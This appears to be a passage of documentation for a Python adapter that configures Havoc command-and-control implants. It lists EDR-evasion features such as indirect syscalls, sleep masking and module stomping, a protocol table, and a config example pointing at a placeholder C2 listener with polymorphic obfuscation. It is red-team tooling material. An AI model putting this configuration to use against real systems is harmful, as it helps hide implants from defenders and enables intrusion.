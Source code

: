 ### Evasion Features

- ✅ **Indirect Syscalls** - Bypass userland hooks
- ✅ **Stack Duplication** - Anti-debugging protection
- ✅ **Sleep Mask** - Encrypt memory during sleep
- ✅ **Module Stomping** - Hide malicious modules

### Supported Protocols

| Protocol | Port | Use Case |
|----------|------|----------|
| HTTPS | 443 | Standard web traffic |
| HTTP | 80 | Unencrypted C2 |
| SMB | 445 | Named pipe communication |

---

## Configuration

### HavocConfig Parameters

```python
from c2_adapters.config import HavocConfig

config = HavocConfig(
    # C2 connection
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    
    # Architecture
    architecture="x64",  # or "x86"
    
    # Sleep obfuscation
    sleep_technique="Ekko",  # Foliage, Ekko, WaitForSingleObjectEx
    sleep_mask=True,
    
    # Evasion
    indirect_syscalls=True,
    stack_duplication=True,
    module_stomping=False,
    
    # Injection
    injection_technique="Syscall",  # Syscall, NtCreateSection
    
    # Noctis integration
    apply_obfuscation=True,
    apply_polymorphic=True
)
```

---